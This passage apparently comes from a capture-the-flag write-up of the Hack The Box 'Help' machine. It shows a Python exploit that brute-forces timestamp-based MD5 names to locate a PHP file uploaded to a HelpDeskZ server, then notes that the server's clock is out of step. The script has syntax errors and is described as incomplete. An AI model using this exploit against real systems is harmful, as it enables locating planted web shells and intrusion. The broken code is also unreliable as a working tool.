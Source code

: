 ```py
helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], %a, %d %b %Y %H%M%S %Z) - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300)
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200
        print found!
        print url
        sys.exit(0)

print Sorry, I did not find anything


```

A couple of problems face us right away. It seems as though the script is incomplete. In addition, we find through <b>BurpSuite</b> that the server time, whose accuracy the exploit depends on, is not aligned with our system's time. We can see this if we examine the <b>Date</b> field in an HTTP response.

<img src="/assets/images/ctfs/htb-help/burp-response.png" alt="" class="center" alt="" class="center">
